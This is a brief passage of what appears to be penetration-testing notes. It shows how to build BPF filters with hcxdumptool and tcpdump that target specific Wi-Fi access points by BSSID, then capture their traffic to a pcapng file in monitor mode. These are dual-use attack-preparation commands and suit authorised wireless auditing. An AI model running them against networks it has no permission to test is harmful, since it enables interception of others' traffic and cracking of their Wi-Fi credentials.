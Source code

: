 HCXDumptool

```
hcxdumptool --bpfc="wlan addr3 BSSID" > SSID.bpf
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

\*\* NOTE: We can target multiple APs

TCPDump:

```
tcpdump -s 65535 -y IEEE802_11_RADIO wlan addr3 BSSID or wlan addr3 BSSID2 -ddd > SSID.bpf
```

HCXDumptool:

```
hcxdumptool --bpfc="wlan addr3 BSSID1 or wlan addr3 BSSID2" > SSID.bpf
```

Now run it against our target

```
sudo hcxdumptool --rds=1 -F --bpf=SSID.bpf -i wlan1mon -w outfile.pcapng
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
